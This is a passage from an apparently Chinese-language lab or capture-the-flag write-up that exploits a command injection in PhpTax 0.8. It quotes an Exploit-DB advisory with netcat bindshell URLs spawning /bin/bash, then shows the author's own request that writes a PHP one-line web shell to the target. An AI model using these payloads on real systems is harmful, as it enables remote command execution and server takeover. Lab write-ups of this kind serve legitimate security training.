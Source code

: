 

好家伙，这可不是我想搜到的嗷，我们直接利用一下吧：

![image-20240129172744914](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217182.png)

```shell
-----------------------------------------------------
phptax 0.8 <= Remote Code Execution Vulnerability
-----------------------------------------------------
Discovered by: Jean Pascal Pereira <pereira@secbiz.de>
Vendor information:
"PhpTax is free software to do your U.S. income taxes. Tested under Unix environment.
The program generates .pdfs that can be printed and sent to the IRS. See homepage for details and screenshot."
Vendor URI: http://sourceforge.net/projects/phptax/
----------------------------------------------------
Risk-level: High
The application is prone to a remote code execution vulnerability.
----------------------------------------------------
drawimage.php, line 63:
include ("./files/$_GET[pfilez]");
// makes a png image
$pfilef=str_replace(".tob",".png",$_GET[pfilez]);
$pfilep=str_replace(".tob",".pdf",$_GET[pfilez]);
Header("Content-type: image/png");
if ($_GET[pdf] == "") Imagepng($image);
if ($_GET[pdf] == "make") Imagepng($image,"./data/pdf/$pfilef");
if ($_GET[pdf] == "make") exec("convert ./data/pdf/$pfilef ./data/pdf/$pfilep");
----------------------------------------------------
Exploit / Proof of Concept:
Bindshell on port 23235 using netcat:
http://localhost/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
** Exploit-DB Verified:**
http://localhost/phptax/index.php?pfilez=1040d1-pg2.tob;nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
----------------------------------------------------
Solution:
Do some input validation.
----------------------------------------------------    
```

尝试利用，尝试传一个一句话木马上去：

```apl
http://192.168.244.144:8080/phptax/index.php?pfilez=xxx;echo%20%22%3C%3Fphp%20system(\$_GET['hack']); %3F%3E%22%20>%20shell.php;&pdf=make
# http://192.168.244.144:8080/phptax/index.php?pfilez=xxx;echo "<?php system(\$_GET['hack']); ?>" > shell.php;&pdf=make
```

尝试运行：

![image-20240129182939902](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217183.png)

